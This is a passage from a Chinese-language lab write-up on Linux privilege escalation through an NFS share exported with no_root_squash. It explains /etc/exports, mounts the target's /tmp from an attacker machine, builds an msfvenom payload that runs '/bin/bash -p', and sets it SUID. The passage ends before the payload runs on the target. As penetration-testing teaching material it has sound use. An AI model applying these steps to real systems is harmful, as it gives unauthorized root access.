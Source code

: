 检查目标机上的 NFS 共享配置:

```shell
cat /etc/exports
```

关于/etc/exports文件：

```shell
/etc/exports文件包含了将哪些文件夹（目录）/文件系统导出到远程用户的配置和权限。

这个文件的内容非常简单，每一行由抛出路径，客户名列表以及每个客户名后紧跟的访问选项构成
[共享的目录] [主机名或IP(参数,参数)]

其中参数是可选的，当不指定参数时，nfs将使用默认选项------默认的共享选项是 sync,ro,root_squash,no_delay。
当主机名或IP地址为空时，则代表共享能给任意客户机提供服务。
当将同一目录共享给多个客户机，但对每个客户机提供的权限不同时，可以这样设置：
[共享的目录] [主机名1或IP1(参数1,参数2)] [主机名2或IP2(参数3,参数4)]
#上面说的客户机是远程用户，带有NFS共享配置文件的机器是服务机（客户机和服务机是一组相对的概念）
```

![image-20221011183113869](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011183113869.png)

我们可以看到/tmp目录是可共享的，远程用户可以挂载它，并且/tmp目录共享还禁用了root\_squash选项（启用no\_root\_squash选项-----即代表禁用了root\_squash）。

在攻击机上先切换到root用户。

```shell
sudo su
```

使用攻击机的root用户，在攻击机上创建一个挂载点并挂载目标机的/tmp 共享目录:

```shell
mkdir /tmp/nfs                                   #创建一个挂载点
mount -o rw,vers=3 10.10.83.196:/tmp /tmp/nfs    #挂载目标机（nfs服务机）的/tmp共享目录，此处可能因为版本问题失败-----修改版本号即可

#如果攻击机没有安装NFS，需要先用以下命令安装：
#sudo apt install nfs-common
#apt-get install cifs-utils
```

![image-20221011184026136](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011184026136.png)

继续使用攻击机的root用户，通过msfvenom生成一个payload并将其保存到 刚才挂载的共享目录（这个payload的作用是调用/bin/bash）

```shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

仍然使用攻击机的 root 用户，使刚才的payload文件可执行并设置 SUID 权限:

```shell
chmod +xs /tmp/nfs/shell.elf
```

![image-20221011184111588](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011184111588.png)
